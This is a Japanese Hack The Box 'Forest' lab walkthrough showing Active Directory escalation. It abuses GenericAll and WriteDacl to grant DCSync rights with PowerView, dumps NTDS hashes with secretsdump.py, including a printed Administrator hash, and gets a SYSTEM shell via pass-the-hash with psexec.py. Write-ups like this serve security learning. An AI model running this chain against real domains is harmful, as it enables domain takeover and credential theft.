 参照：[Hack The Box - Forest Walkthrough](https://youtu.be/kcv9cH-nLq8)

## Exchange Windows Permissionsグループへの自身の追加と新規アカウント作成

svc-alfrescoのノードにおいて、`Reachable High Value Targes`をクリックした結果：

![スクリーンショット 2021-12-19 14 45 45](https://user-images.githubusercontent.com/85237728/146665370-fa20347c-7222-461b-81f7-c07421e7e608.png)

-> `ACCOUNT OPERATORS`のメンバは`EXCHANGE WINDOWS PERMISSIONS`に対して**GenericAll**である。つまり`EXCAHNGE WINDOWS PERMISSIONS`にユーザを作ったり、自分自身を追加したりできる。

（GenericAllのヘルプ）
> The members of the group ACCOUNT OPERATORS@HTB.LOCAL have GenericAll privileges to the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL.<br>This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

そして、`EXCHANGE WINDOWS PERMISSIONS`のメンバーは`HTB.LOCAL`に対して**WriteDacl**の権限がある！

（Write Daclのヘルプ）
> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL.
> <br>With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

まず、`net group`コマンドにて、`svc-alfresco`ユーザを`Exchange Windows Permissions`グループへ追加（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" svc-alfresco /add
The command completed successfully.
```

（`net group`や`whoami /groups`で確認）

注）addしたのにメンバーになってない場合は、一旦Evil-WinRMを^Cで抜けて、もう一度接続し直すとよい。

新規ドメインアカウントを作成する。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user shoebill Passw0rd! /add /domain
The command completed successfully.
```

新規ドメインアカウントshoebillを`EXCHANGE WINDOWS PERMISSIONS`に入れる（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Exchange Windows Permissions' shoebill /add
The command completed successfully.
```

（できれば、`Remote Management Users`にも属させておく）

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Remote Management Users' shoebill /add
The command completed successfully.
```

-> *ここまでで、まず自分svc-alfrescoを`Excange Windows Permissions`に配属させ、さらに`Exchange Windows Permissions`に新規のアカウント**shoebill**をも配属させた。*

## PowerView.ps1によるDCSync

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Import-Module .\PowerView.ps1
```
> To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity 'DC=htb, DC=local' -Rights DCSync
```
＝「**htb.local**のアカウント**shoeiblll**に**DCSync**のprivilegeを持たせる」

注）`Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity htb.local -Rights DCSync`ではエラー！（DCはDomain Component）.

> `Add-DomainObjectAcl`: Adds an ACL for a specific active directory object. This function modifies the ACL/ACE entries for a given Active Directory target object specified by `-TargetIdentity`.  These rights are granted on the target object for the specified `-PrincipalIdentity`.

DCSyncのprivielgeを持ったユーザが作成できたら、**secretsdump.py**でハッシュダンプ。

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py 'htb.local/shoebill:Passw0rd!@10.10.10.161'

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

最後にPass the HashでAdminのシェルゲット

```
┌──(kali㉿kali)-[~]
└─$ psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file zEmdPRll.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service saol on 10.10.10.161.....
[*] Starting service saol.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


DCSync攻撃とは？...**自分がドメインコントローラになりすますことでドメイン内のユーザハッシュが上記のように取れる。**

## 何度やってもできなかったら...

```
*Evil-WinRM* PS C:\Users\svc-alfresco> $pass = ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco> $cred = New-Object System.Management.Automation.PSCredential('htb\harmj0y',$pass)
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -Credential $cred -TargetIdentity 'DC=htb,DC=local' -PrincipalIdentity harmj0y -Rights DCSync
```

と設定してから

```
┌──(kali㉿kali)-[~]                                                                                                                                         └─$ secretsdump.py 'htb.local/harmj0y:Passw0rd!@10.10.10.161'
```

を実行するとうまくいくかも（ここ：https://ranakhalil101.medium.com/hack-the-box-forest-writeup-w-o-metasploit-63070c9020e4 ではそうしてた。）

あと、Noriaki Hayashiさんのwriteupではntlm relayをやってた。




